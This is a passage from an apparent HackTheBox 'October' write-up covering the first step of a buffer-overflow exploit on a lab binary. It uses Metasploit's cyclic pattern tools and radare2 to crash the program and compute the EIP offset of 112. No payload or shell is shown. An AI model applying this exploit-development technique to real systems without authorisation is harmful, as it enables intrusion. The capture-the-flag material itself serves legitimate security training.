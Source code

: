 ```
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
                                                                                                                                
┌──(user㉿kali)-[~/hackthebox/hackthebox/october/ovrflw]
└─$ radare2 -d ./ovrflw Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Process with PID 4778 started...
= attach 4778 4778
bin.baddr 0x08048000
Using 0x8048000
asm.bits 32
glibc.fc_offset = 0x00148
[0xf7f4a0b0]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[TOFIX: aaft can't run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0xf7f4a0b0]> dc 
[+] SIGNAL 11 errno=0 addr=0x64413764 code=1 si_pid=1681995620 ret=0
[0x64413764]> dr
eax = 0x00000000
ebx = 0x00000000
ecx = 0xffeb9360
edx = 0xffeb828c
esi = 0xf7f21000
edi = 0xf7f21000
esp = 0xffeb8240
ebp = 0x41366441
eip = 0x64413764
eflags = 0x00010202
oeax = 0xffffffff
[0x64413764]> q
Do you want to quit? (Y/n) y
Do you want to kill the process? (Y/n) y

```

We find the hex bytes 0x64413764 in the eip register and we use this value to look up the offset

```                                                                                                                                
┌──(user㉿kali)-[~/hackthebox/hackthebox/october/ovrflw]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x64413764
[*] Exact match at offset 112
```
